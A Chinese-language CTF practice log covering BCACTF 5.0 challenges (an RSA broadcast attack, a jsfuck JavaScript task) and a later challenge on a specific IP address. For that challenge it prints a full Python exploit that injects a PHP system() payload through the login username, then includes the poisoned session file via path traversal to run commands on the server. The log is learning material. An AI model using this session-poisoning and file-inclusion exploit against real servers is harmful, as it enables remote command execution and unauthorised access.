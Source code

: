 ### Daily Exercise

#### 6月9日：BCACTF 5.0

##### RSAEncrypter

查看[源代码](./BCACTF5.0/rsa_encrypter.py)会发现符合RSA广播攻击的特点，其中e为3，那么接收3组n和c即可，使用[攻击模版](/Notes/crypto/RSA_template/broadcast.py)就可以拿到flag。

##### JSLearning.com

查看[源代码](./BCACTF5.0/server.js)就知道是jsfuck编码，程序会输出out的内容，那我们只要指定out=flag即可打印flag。

##### 复现链接

https://bcactf.com/

https://ctf.krauq.com/bcactf-2024

#### 6月11日：http://158.247.215.127:10002/

一道目录穿越和文件读取的题目，[源代码](./imagestorage)找到了exp但还没学明白原理。

```python
from requests import get,post

url = "http://158.247.215.127:10002/"

login = {
    "username":"<?php echo system('/flag');?>"
}
cookie = post(url + "login.php",data=login).cookies.get_dict()
filename = f"./var/lib/php/sessions/sess_{cookie['PHPSESSID']}"
payload = "?"
for i in range(1,8):
    payload += f"filename[{i}]="
    if i%2==0:payload += "./"
    else:payload += "."
    payload += "&"
payload += f"filename[8]={filename}"

print(get(url + "view.php"+payload).text.split("\n")[1][:-2])
```


